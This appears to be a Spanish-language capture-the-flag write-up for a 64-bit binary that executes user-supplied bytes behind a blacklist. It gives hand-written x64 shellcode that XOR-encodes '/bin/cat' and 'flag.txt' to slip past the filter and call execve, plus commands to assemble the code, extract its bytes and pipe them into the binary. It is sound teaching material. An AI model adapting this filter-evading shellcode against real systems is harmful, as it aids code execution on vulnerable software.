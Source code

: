 # Analisis del Binario
Tenemos un binario ejecutable de 64 bits con el NX desabilitado.

![foto de el binario](images/checksec.png)

Al ejecutar el binario nos recibe con el siguiente mensaje, donde dependiendo nuestra respuesta se acontece un segmentation fault.

```
Hey, just because I am hungry doesn't mean I'll execute everything
asd
Hehe, told you... won't accept everything
```

# Analisis del Codigo

Al analizar el codigo vemos que los bytes que introduzcamos son interpretados pudiendo ejecutar instrucciones, sin embargo tambien 
vemos presente una blacklist.

# Explotacion

### Creacion del shellcode
Existen diversas herramientas en la web que nos permiten crear shellcodes, un ejemplo claro tenemos msfvenom, sin embargo la serie de
limitantes que nos ocasiona la estructura del codigo hace dificil el uso de herramientas automatizadas, toca crearlo a mano.

### Instrucciones en ASM-x64

Como estamos en presencia de un binario de 64 bits, nuestro objetivo sera leer el archivo flag.txt, vamos a crearlo.

```asm
section .text
    global _start

_start:
; ---- Limpiamos el registro RDX, nos servira de separador para las cadenas de texto ----
    mov rdx, r9
    xor rdx,r9

; ---- Insertamos la cadena '/bin/cat' ----
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b9e9cd091969dd0      ; '/bin/cat' cifrado con xor para bypassear la blacklist
    xor rbx,0xffffffffffffffff      ; desciframos '/bin/cat'
    push rbx
    mov rdi,rsp                     ; RDI -> '/bin/cat'

; ---- Insertamos la cadena 'flag.txt' ---
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b878bd1989e9399      ; 'flag.txt' cifrado
    xor rbx,0xffffffffffffffff      ; deciframos 'flag.txt'
    push rbx
    mov rsi,rsp                     ; RSI -> 'flag.txt'

; ---- Almacenamos las direcciones y preparamos la pila ---
    push rdx                        ; Null Byte
    push rsi
    push rdi
    mov rsi,rsp                     ; RSI -> ['/bin/cat','flag.txt']

; syscall: execve(const char *pathname, char *const _Nullable argv[],char *const _Nullable envp[]);
    ; rdi: pathname = '/bin/cat'
    ; rsi: args[] = ['/bin/cat flag.txt']
    ; rdx: envp = NULL

; --- Ejecutamos la llamada al sistema ---
    mov al, 60              ; RAX -> execv cuyo valor es [59]
    dec al
    syscall
```

*Nota: Puedes descargar el archivo sin comentarios [aqui](exploit/shellcode.asm)*

Una vez listo, debemos ver si no contiene Null bytes y ninguno de los badchars (si seguiste la guia puedes seguir con normalidad).
Compilamos el binario con los siguientes comandos:

```bash
nasm -f elf64 <filename> -o shellcode.o
ld shellcode.o -o shell
```
Lo ejecutamos para comprobar que todo este bien...

### Generacion del shellcode
Gracias a la siguiente funcion que tengo programada en mi zshrc se puede exctraer el shell code con facilidad.

```bash
extractShell () {
	printf '\\x' && objdump -d $1 | grep "^ " | cut -f2 | xargs | tr -d " " | sed 's/.\{2\}/&\\x/g' | head -c-3
	echo
}
```
Lo copiamos y vamos a la explotacion.

*Puedes agregarlo a tu zsh en la ultima linea*

### Explotacion
Una vez tengamos el shellcode debemos explotar el binario.

```bash
echo -n <shellcode> | ./execute
```

![flag](images/flag.png)

Y listo...
*Nota: [Aqui](exploit/exploit.py) adjunto una herramienta para la explotacion automatizada*

### Referencias
Para profundizar mas el tema consulte:
- https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html




